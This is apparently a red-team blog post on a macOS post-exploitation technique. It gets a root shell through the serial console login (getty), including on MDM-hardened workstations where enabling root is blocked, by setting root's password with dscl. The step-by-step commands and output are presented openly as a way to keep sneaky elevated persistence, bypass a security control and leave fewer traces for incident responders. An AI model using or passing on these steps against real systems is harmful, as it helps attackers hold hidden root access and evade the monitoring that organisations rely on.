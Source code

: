 ```yaml
---
author: n0ncetonic
layout: post
title: macOS Serial Console Login
tags: [MacOS, Post-Exploitation]
---
```


## Foreword ##
This short post documents a technique for authenticating as `root` on macOS and provides procedures for bypassing the default configuration of macOS which explicitly disables the `root` user. For some added fun—and in keeping with Eric Raymond's *Rule of Diversity*–one of the procedures neuters a common mitigation against re-enabling the `root` user.

> Rule of Diversity
    Developers should design their programs to be flexible and open. This rule aims to make programs flexible, **allowing them to be used in ways other than those their developers intended**.
;)

## The route to root ##
Under a default installation of macOS any administratrative user can trivially enable (and disable) the `root` account via the [`dsenableroot(8)`][1] command.

> DESCRIPTION
     dsenableroot sets the password for the root account if enabling the root user account.  Otherwise, if disable [-d] is chosen, the root account passwords are removed and the root user is disabled.

When enabling the root user via `dsenableroot` you will be prompted for a "root password" but knowing the root password is not a requirement (and by default `root` does not have a password); anything you enter here will be accepted as the password for `root` so long as you don't fat-finger it when prompted to "verify root password".

```
user@blacksunlabs:~ $ dsenableroot
username = user
user password:
root password:
verify root password:

dsenableroot:: ***Successfully enabled root user.
```

**Secret Squirrel Note** It's worth noting here that this was all done without running the `sudo` command which might otherwise raise a red flag on networks where users do not commonly run `sudo` or in cases where solutions such as Centrify have been deployed to trigger session recording when `dzdo`/`sudo` are run. One less data point for incident responders during post-mortem examination of a host.

Likewise it is similarly easy to disable the root user, allowing administrators to disable the root user after concluding its use.

```
user@blacksunlabs:~ $ dsenableroot -d
username = user
user password:

dsenableroot:: ***Successfully disabled root user.
```

### MDM: A protection ###
It is becoming more and more common to restrict enabling `root` for end-users on managed workstations. As most end-users have no need for explicitly logging in as `root`, this is considered good security hygiene.

In these situations, attempting to enable `root` via `dsenableroot` will produce an error such as this:

```
user@blacksunlabs:~ $ dsenableroot
username = user
user password:
root password:
verify root password:

dsenableroot:: ***Failed to enable root user.
```

We will address the case of hardened workstations near the conclusion of this post. 

## The not so secret life of `getty`  ##

**History Lesson**
If you've had the pleasure of contracting tinnitus as a result of prolonged employment in a NOC, you are probably all too familiar with [`getty(8)`][2]. You've probably also made Null Modem cables out of speaker wire in a pinch. 

For those with limited familiarity with `getty`, don't worry. In a nutshell, `getty` is in charge of initializing a tty terminal, prompting for user credentials, and passing those credentials over to [`login(1)`][3] to handle the heavy lifting. More specifically, it allows system consoles, psuedo-terminals, or terminals to login to a local system over a non-graphical interface.

### A link to the past ###
In *much* older versions of macOS—think Mac OS X Jaguar and similar—it was possible to get access to the system console login by [entering ">console" as a username][4] on the graphical login screen. This functionality has long-since been removed but it got me wondering about the system console on modern macOS incarnations.

## PoC||GTFO ##
Now that the useful content of this post has been padded with enough background info to not fit in a tweet or two, let's get to the good bits.

The procedure on default or non-hardened workstations is quite simple: 
- `dsenableroot` to set a root password
- `dsenableroot -d` to disable the root account. It really shouldn't be enabled and upon cursory glance the environment mimicks a default system
- `/usr/libexec/getty console` to drop us into a system console login prompt. 

Once at a system console login prompt simply enter "root" as your login and when prompted, provide the password you set using `dsenableroot`.

```
user@blacksunlabs:~ $ dsenableroot
username = user
user password:
root password:
verify root password:

dsenableroot:: ***Successfully enabled root user.
user@blacksunlabs:~ $ dsenableroot -d
username = user
user password:

dsenableroot:: ***Successfully disabled root user.
user@blacksunlabs:~ $ /usr/libexec/getty console
�
D�rwi�BSD�(black�sun�-labs���(tt��005��
�
lo�i�:�root�
            Password:
Last login: Sat Nov 17 12:53:32 on ttys004
blacksunlabs:~ root# id -a
uid=0(root) gid=0(wheel) groups=0(wheel),1(daemon),2(kmem),3(sys),4(tty),5(operator),8(procview),9(procmod),12(everyone),20(staff),29(certusers),61(localaccounts),80(admin),701(com.apple.sharepoint.group.1),401(com.apple.access_remote_ae),33(_appstore),98(_lpadmin),100(_lpoperator),204(_developer),250(_analyticsusers),395(com.apple.access_ftp),398(com.apple.access_screensharing),399(com.apple.access_ssh)
blacksunlabs:~ root# exit
logout
```

There you go. Despite `root` being disabled by Directory Services, logging in via a serial connection such as the system console happily ignores Directory Services and presents us with a fully functional tty and shell. An added bonus is that we did not have to invoke `sudo`—or even be in the sudoers file 😉—and there is no cascading process tree connecting our root shell to the original user.

### Remember Churchill ###
> Don't take 'no' for an answer, never submit to failure. 
    - Winston Churchill

If you encountered that pesky "`dsenableroot:: ***Failed to enable root user.`" message when running `dsenableroot` remember the *Rule of Diversity* and add some Churchill for good measure. If the system says "no", use tools in a way developers hadn't intended and elbow security mitigations in the face for doubting your skills.

As was shown in the previous procedure, the only thing that's actually needed is a known password for the root user. While `dsenableroot` allows us to circumvent sudoers restrictions and cover our tracks a bit, it does still require knowing the password of a user with administrative permissions. 

Taking advantage of the fact that most macOS workstations follow the "single user administrator" model we have a few potential ways for leveraging our administrator user's credentials to set a password for the root user. 

[`dscl(1)`][5] is used here to mimick administrative best practices for managing macOS user credentials via Directory Services, but `sudo passwd root` would work just as well.

```
user@blacksunlabs:~ $ dsenableroot
username = user
user password:
root password:
verify root password:

dsenableroot:: ***Failed to enable root user.
user@blacksunlabs:~ $ sudo /usr/bin/dscl . -passwd /Users/root
Password:
New Password:
01:57:11 user@blacksunlabs:~ $ /usr/libexec/getty console
�
D�rwi�BSD�(black�sun�-labs���(tt��005��
�
lo�i�:�root�
            Password:
trogers-ltm:~ root# id -a
uid=0(root) gid=0(wheel) groups=0(wheel),1(daemon),2(kmem),3(sys),4(tty),5(operator),8(procview),9(procmod),12(everyone),20(staff),29(certusers),61(localaccounts),80(admin),701(com.apple.sharepoint.group.1),401(com.apple.access_remote_ae),33(_appstore),98(_lpadmin),100(_lpoperator),204(_developer),250(_analyticsusers),395(com.apple.access_ftp),398(com.apple.access_screensharing),399(com.apple.access_ssh)
trogers-ltm:~ root# logout
```

From "Go To Hell!" to "Yo! Root Shell!" No sadfeels bourbon today, you just earned celebratory bourbon!
****

## Closing ##
Honestly I'm just glad I finally got around to writing this up. I had a need for a sneaky means of elevated persistence on a system and this idea occurred to me but as is common due to the mercurial nature of my work, the idea got shelved and priorities shifted constantly, and I never found myself in a situation formally investigate and document this technique.

Also, before i see the tweets, yes, it is possible to provide the `-u` admin username, `-p` admin password, and `-r` rootpassword as flags to `dsenableroot`, I personally prefer to be prompted interactively for these bits of information to avoid accidentally writing sensitive information to history files.

[1]:https://ss64.com/osx/dsenableroot.html
[2]:https://www.freebsd.org/cgi/man.cgi?query=getty&sektion=8&manpath=freebsd-release-ports
[3]:https://www.freebsd.org/cgi/man.cgi?query=login&sektion=1&apropos=0&manpath=FreeBSD+11.2-RELEASE+and+Ports
[4]:https://hints.macworld.com/article.php?story=20020318020806482
[5]:https://ss64.com/osx/dscl.html
